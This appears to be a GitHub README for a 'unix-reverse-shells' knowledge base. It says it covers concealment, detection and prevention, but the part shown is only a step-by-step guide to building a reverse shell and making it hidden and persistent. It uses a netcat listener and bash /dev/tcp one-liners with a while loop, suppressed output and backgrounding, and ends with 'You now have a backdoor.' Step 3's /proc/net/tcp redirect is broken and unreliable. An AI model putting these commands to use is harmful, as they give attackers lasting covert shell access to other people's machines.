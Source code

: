 # unix-reverse-shells
A knowledge base for reverse shells on Unix-like systems.

---

In my spare time I am fiddling with reverse shells **for Unix-like systems**.

This repository is to document my findings on:

- how they are typically concealed

- how we can detect this kind of activity on already compromised machines

- what can be done to prevent these from succeeding when an authenticated user plants one

### Intro
Creating your first reverse shell
is astonishingly simple.

1. Spawn a new shell on the target machine:
      ```sh
      bash
      ```

2. Listen for a connection on your machine:
      ```sh
      nc -lp <port>
      ```

3. Connect to that port from the target machine:
      ```sh
       bash -i >& /proc/net/tcp/<your-ip>/<port> 0>&1
      ```

Voila.

After playing with this for a while you're probably asking - how do we keep it alive?

4. While loop
      ```sh
      sh -c 'while true; do bash -i  >& /dev/tcp/<your-ip>/<port> 0>&1 | sh -i; done'
      ```

5. Supress the output
      ```sh
      sh -c 'while true; do bash -i  >& /dev/tcp/<your-ip>/<port> 0>&1 | sh -i; done > /dev/null 2>&1'
      ```

6. Throw it in the background
      ```sh
      sh -c 'while true; do bash -i  >& /dev/tcp/<your-ip>/<port> 0>&1 | sh -i; done > /dev/null 2>&1 &'
      ```

7. Hide the shell
      ```sh
      sh -c 'while true; do bash -i  >& /dev/tcp/<your-ip>/<port> 0>&1 | sh -i; done > /dev/null 2>&1 &' && exit > /dev/null 2>&1;
      ```
You now have a backdoor.
